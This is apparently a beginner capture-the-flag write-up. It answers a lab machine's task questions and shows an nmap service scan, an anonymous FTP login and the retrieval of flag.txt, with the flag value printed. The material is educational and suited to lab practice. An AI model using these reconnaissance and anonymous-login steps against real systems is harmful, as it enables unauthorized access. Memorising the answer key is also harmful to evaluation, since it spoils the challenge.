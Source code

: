 # Target Info
Target Machine IP = 10.129.72.7

# Solution
1. File Transfer Protocol
2. 21
3. sftp
4. ping
5. run nmap scan to find service version
```
○ sudo nmap 10.129.72.7 -sV
Starting Nmap 7.80 ( https://nmap.org ) at 2023-05-21 11:14 WIB
Nmap scan report for 10.129.72.7
Host is up (1.8s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.03 seconds
```
6. Unix (from -sV scan)
7. ftp -h
8. anonymous
```
○ ftp 10.129.72.7
Connected to 10.129.72.7.
220 (vsFTPd 3.0.3)
Name (10.129.72.7:zeta): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```
9. 230
10. ls
11. get
12 get the flag via ftp
```
○ ftp 10.129.72.7
Connected to 10.129.72.7.
220 (vsFTPd 3.0.3)
Name (10.129.72.7:zeta): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||56658|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||45704|)
150 Opening BINARY mode data connection for flag.txt (32 bytes).
100% |*************************************************************************************|    32        0.10 KiB/s    00:00 ETA
226 Transfer complete.
32 bytes received in 00:00 (0.03 KiB/s)
ftp> exit
221 Goodbye.

zeta at melforger in ~
○ cat flag.txt
035db21c881520061c53e0536e44f815%                                                                                                 
```

flag = 035db21c881520061c53e0536e44f815
